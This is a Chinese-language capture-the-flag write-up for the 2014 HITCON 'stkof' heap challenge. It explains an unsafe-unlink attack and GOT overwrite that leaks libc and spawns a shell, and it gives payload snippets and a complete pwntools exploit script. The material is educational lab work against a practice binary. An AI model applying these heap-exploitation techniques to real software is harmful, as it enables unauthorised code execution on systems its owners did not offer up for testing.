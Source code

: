 ```yaml
---
title: 2014 HITCON stkof
date: 2018-10-17 23:25:59
tags: [unlink]
---
```


### 基本信息
```
stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
```
```
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

### 程序基本功能
程序存在 4 个功能，经过 IDA 分析后可以分析功能如下

- alloc：输入 size，malloc(size)，并在 bss 段(0x602148)记录对应 chunk 的指针
- read_in：输入索引，向分配的内存处写入数据，数据长度可控，这里存在堆溢出的情况
- free：输入索引，free已经分配的内存块
- useless：无用

### 基本思路
根据unsafe unlink原理，malloc三个chunk（第一个0x100的chunk是为什么解决IO缓冲区的问题）。
1. 向第一个chunk写入伪造的数据，并溢出第二个chunk。
```
        payload = p64(0)                  #chunk2
        payload += p64(0x30)
        payload += p64(ptr+0x10-0x18)
        payload += p64(ptr+0x10-0x10)
        payload = payload.ljust(0x30,'a')

        payload += p64(0x30)              #chunk3
        payload += p64(0x90)
        edit(2,payload)
        free(3)   # 0x602140 -> 0x602138

```
  free(3)之后，获得了一个可控的指针0x602150 -> 0x602138

2. 0x602150存储的是malloc(chunk2)返回的指针，所以当向chunk2中写数据时，数据会被写到0x602138处。通过这个指向自己`-0x18`地址的指针，可以修改chunk1返回指针的内容为free的got地址，修改chunk2返回指针的内容为puts的地址。
```
        payload = 'a'*16 + p64(stkof.got['free']) + p64(stkof.got['puts'])
        edit(2,payload)

```
  此时chunk1的指针指向了free@got的地址，那么向其中写入puts@plt的地址的话，程序调用free函数时就会调用puts函数。此时chunk2的指针指向了puts@got的地址，再free(2)的话其实执行的puts(2)，就会打印chunk2返回指针指向的内容，即puts(puts@got)，从而获得了puts的地址。
```
        payload = p64(stkof.plt['puts'])
        edit(1,payload)
        free(2)
        puts_addr = p.recvuntil('\nOK\n',drop=True).ljust(8,'\00')
        puts_addr = u64(puts_addr)

```
3. 接着泄露并计算出system的地址，再次修改chunk1返回指针的内容为system的got地址，free(chunk3)中的内容就可以获得shell

### EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./stkof')
stkof = ELF('./stkof')
libc = ELF('./libc.so.6')

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def alloc(size):
	p.sendline('1')
	p.sendline(str(size))
	p.recvuntil('OK\n')

def edit(idx,content):
	p.sendline('2')
	p.sendline(str(idx))
	p.sendline(str(len(content)))
	p.send(content)
	p.recvuntil('OK\n')

def free(idx):
	p.sendline('3')
	p.sendline(str(idx))

ptr = 0x602140

def exp():
	alloc(0x100)
	alloc(0x30)
	alloc(0x80)
	alloc(0x80)
	edit(4,'/bin/sh;'+'c'*(0x80-len('/bin/sh;')))
	payload = p64(0)
	payload += p64(0x30)
	payload += p64(ptr+0x10-0x18)
	payload += p64(ptr+0x10-0x10)
	payload = payload.ljust(0x30,'a')

	payload += p64(0x30)
	payload += p64(0x90)

	edit(2,payload)
	free(3)   # 0x602140 -> 0x602138
	gdb.attach(p)
	raw_input()
	p.recvuntil('OK\n')

	payload = 'a'*16 + p64(stkof.got['free']) + p64(stkof.got['puts'])
	edit(2,payload)
	payload = p64(stkof.plt['puts'])
	edit(1,payload)

	free(2)
	puts_addr = p.recvuntil('\nOK\n',drop=True).ljust(8,'\00')
	puts_addr = u64(puts_addr)
	log.success('puts_addr:' + hex(puts_addr))

	libc_base = puts_addr - libc.symbols['puts']
	system_addr = libc_base + libc.symbols['system']
	binsh_addr = libc_base + next(libc.search('/bin/sh'))
	log.success('system_addr:'+ hex(system_addr))
	log.success('binsh_addr:'+hex(binsh_addr))

	payload = p64(system_addr)
	edit(1,payload)
	free(4)
	p.interactive()

exp()

```
